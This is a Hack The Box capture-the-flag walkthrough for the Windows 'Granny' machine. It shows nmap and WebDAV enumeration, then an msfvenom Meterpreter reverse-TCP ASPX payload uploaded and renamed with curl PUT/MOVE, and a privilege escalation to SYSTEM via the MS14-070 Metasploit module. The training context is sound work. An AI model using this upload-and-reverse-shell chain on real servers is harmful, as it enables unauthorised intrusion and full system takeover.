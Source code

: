 ```yaml
---
layout: walkthrough
title: Granny
description: "HTB walkthrough"
logo: /assets/img/walkthroughs/granny_logo.png
show-avatar: false
permalink: /walkthroughs/granny.html
OS: Windows
difficulty: Easy
release: 12 Apr 2017
creator: <a href="https://www.hackthebox.eu/home/users/profile/1">ch4p</a>
cleared: 12 Nov 2019
published: 2019 11 12
---
```


<h2 align="center">Enumeration</h2>

Starting with a standard nmap scan...

```
# Nmap 7.80 scan initiated Tue Nov 12 17:01:01 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.080s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Tue, 12 Nov 2019 22:03:04 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Nov 12 17:03:00 2019 -- 1 IP address (1 host up) scanned in 118.58 seconds
```

we see the only open port is **80** and if we navigate to the page we see a default "Under Construction" page. However we see from the scan that it using webDAV. So lets run **davtest**

![davtest](/assets/img/walkthroughs/granny_davtest.png)

Looking at the output of running **nikto** we see that the server is running ASP.net.

```
- Nikto v2.1.6/2.1.5
+ Target Host: 10.10.10.15
+ Target Port: 80
+ GET Retrieved microsoftofficewebserver header: 5.0_Pub
+ GET Retrieved x-powered-by header: ASP.NET
<...>
```

However davtest shows us that we can't use PUT to upload an asp or aspx file. However running davtest with the -move flag

```
root@kali:~/HTB/Boxes/Granny# davtest -url http://10.10.10.15 -move                       <...>  
Sending test files (MOVE method)
<...>
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_asp.txt
MOVE    asp     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.asp                               <...>
http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq.cfm
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_ZinCoKvq/davtest_ZinCoKvq_aspx.txt
MOVE    aspx    SUCCEED:
<...>
```

shows us that we can use MOVE to change a file extension to .asp or .aspx

With that knowledge, let's create an .aspx payload and upload it as a .html file and rename it to .aspx file

<h3 align="center">Explotation</h3>

Let's create a payload with **msfvenom**

```sh
root@kali:~/HTB/Boxes/Granny# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o hilbert.html                                     
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2818 bytes 
Saved as: hilbert.html
```

Now we'll use **curl** to upload the file to the server and change the extension

```sh
root@kali:~/HTB/Boxes/Granny# curl http://10.10.10.15 --upload-file hilbert.html
root@kali:~/HTB/Boxes/Granny# curl -X MOVE --header 'Destination:http://10.10.10.15/hilbert.aspx' 'http://10.10.10.15/hilbert.html'
```

Then we will run **Metasploit** and use a multi hander to listen for our shell

```
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.7:4444 
```

Then we will direct our browser to hilbert.aspx to activate our reverse shell

```
[*] Started reverse TCP handler on 10.10.14.7:4444 
[*] Sending stage (180291 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.7:4444 -> 10.10.10.15:1031) at 2019-11-18 16:30:40 -0500

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

Next we will use exploit suggester to find a vulnerability we can use for privilege escalation

```
meterpreter > bg
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf5 exploit(multi/handler) > use 0
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 29 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```

The exploit that will work is "exploit/windows/local/ms14_070_tcpip_ioctl"

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_070_tcpip_ioctl
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
session => 1
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Storing the shellcode in memory...
[*] Triggering the vulnerability...
[*] Checking privileges after exploitation...
[+] Exploitation successful!
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > session -i 1
[-] Unknown command: session.
msf5 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

We now have full access to the system and can read the user.txt and root.txt flags.
